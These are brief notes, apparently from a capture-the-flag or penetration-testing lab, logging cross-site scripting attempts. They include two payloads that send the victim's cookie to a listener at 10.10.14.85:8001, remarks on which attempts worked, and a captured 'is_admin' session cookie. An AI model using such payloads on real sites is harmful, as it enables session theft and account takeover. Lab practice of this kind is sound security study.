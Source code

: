 `<script>var i=new Image(); i.src="http://10.10.14.85:8001/?cookie="+btoa(document.cookie);</script>`
- Encoded on request did not work.
- Maybe user agent?
- Nothing
`<img src=x onerror=fetch('http://10.10.14.85:8001/'document.cookie);>`

![[Screenshots/Pasted image 20240513124153.png]]

![[Screenshots/Pasted image 20240513124205.png]]
- To much delay but works
- `is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`